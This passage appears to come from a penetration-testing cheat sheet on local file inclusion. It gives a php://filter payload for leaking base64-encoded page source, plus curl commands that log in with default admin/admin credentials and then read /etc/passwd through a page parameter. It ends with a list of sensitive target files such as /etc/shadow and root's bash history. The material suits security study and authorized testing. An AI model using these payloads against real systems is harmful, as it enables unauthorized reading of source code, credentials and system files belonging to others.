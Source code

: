 ```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

Here you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:

```
base64 -d savefile.php
```

## Linux

### Tricks

**Download config-files in a nice style-format**

If you read files straight in the browser the styling can becomes unbearable. Really difficult to read. A way around it is to download the files from the terminal. But that won't work if there is a login that is blocking it. So this is a great workaround:

```
# First we save the cookie
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile
```

### Sensitive file

This is the default layout of important apache files.  
[https://wiki.apache.org/httpd/DistrosDefaultLayout](https://wiki.apache.org/httpd/DistrosDefaultLayout)

```
/etc/issue (A message or system identification to be printed before the login prompt.)
/etc/motd (Message of the day banner content. Can contain information about the system owners or use of the system.)
/etc/passwd 
/etc/group 
/etc/resolv.conf (might be better than /etc/passwd for triggering IDS sigs)
/etc/shadow
/home/[USERNAME]/.bash_history or .profile
~/.bash_history or .profile
$USER/.bash_history or .profile
/root/.bash_history or .profile
```

Comes from here: [https://gist.github.com/sckalath/a8fd4e754a72015aa0b8](https://gist.github.com/sckalath/a8fd4e754a72015aa0b8)

```
/etc/mtab  
/etc/inetd.conf  
/var/log/dmessage
```
